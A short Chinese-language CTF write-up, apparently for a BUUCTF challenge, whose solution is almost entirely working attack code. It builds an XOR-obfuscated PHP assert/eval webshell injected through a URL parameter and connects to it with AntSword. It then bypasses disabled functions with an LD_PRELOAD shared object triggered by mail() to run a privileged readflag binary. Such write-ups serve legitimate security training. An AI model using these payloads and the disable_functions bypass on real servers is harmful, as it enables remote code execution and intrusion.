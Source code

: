 ```
http://268a054e-42e7-45d6-a8ba-7f3e67a00d0a.node3.buuoj.cn/?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=assert&__=phpinfo()
```

很遗憾的发现system等函数都不能执行.

上蚁剑,但是很奇怪的不能直接用密码__来连接, 要这样连, 不然会有奇怪的东西显示 

```
http://268a054e-42e7-45d6-a8ba-7f3e67a00d0a.node3.buuoj.cn/?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=assert&__=eval($_POST[a])
```

......原来一定要eval么.....

然后发现根目录下有无读权限的flag和一个readflag二进制文件.

连上之后向/tmp目录下面写两个东西, 一个是本地生成的so文件, 

hack.c

```c
#include <stdio.h>
#include <unistd.h>
#include <stdio.h>

__attribute__ ((__constructor__)) void angel (void){
    unsetenv("LD_PRELOAD");
    system("/readflag > /tmp/ch4ser");
}
```

编译

```
gcc -shared -fPIC hack.c -o hack.so
```

拖上去就行了

ch4ser.php

```
<?php

    putenv("LD_PRELOAD=/tmp/hack.so");
    mail("", "", "", "");
?>
```

最后包含代码去执行

```php
http://268a054e-42e7-45d6-a8ba-7f3e67a00d0a.node3.buuoj.cn/?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=assert&__=include("/tmp/ch4ser.php")
```

``mail``函数产生进程的同时就会触发preload中的代码, 然后读输出中的flag就行了

# 0ctf Wallbreaker Easy
